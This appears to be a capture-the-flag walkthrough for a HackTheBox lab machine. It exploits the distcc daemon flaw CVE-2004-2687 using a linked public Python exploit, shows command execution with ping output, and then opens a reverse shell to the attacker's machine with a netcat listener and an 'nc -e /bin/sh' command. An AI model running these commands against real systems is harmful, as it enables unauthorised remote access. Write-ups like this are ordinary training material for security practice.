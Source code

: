 ### CVE-2004-2687

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/lame)

Based on nmap script, I identify distcc-cve2004-2687 and search the public exploit <a href='https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855' target="blank">DistCC Daemon - Command Execution (Python)</a>

Execute payload with ping command

```
┌──(Hades㉿10.10.14.4)-[1.5:16.3]~
└─$ python distccd_rce_CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "ping -c 2 10.10.14.4"
[OK] Connected to remote service

--- BEGIN BUFFER ---

PING 10.10.14.4 (10.10.14.4) 56(84) bytes of data.
64 bytes from 10.10.14.4: icmp_seq=1 ttl=63 time=235 ms
64 bytes from 10.10.14.4: icmp_seq=2 ttl=63 time=234 ms

--- 10.10.14.4 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1005ms
rtt min/avg/max/mdev = 234.636/235.127/235.618/0.491 ms


--- END BUFFER ---

[OK] Done.
```

Create a listener in Kali machine.

``` bash
sudo nc -nvlp 4444
```

Get reverse shell

```bash
python distccd_rce_CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.64 4444 -e /bin/sh"
```

![](images/4.png)
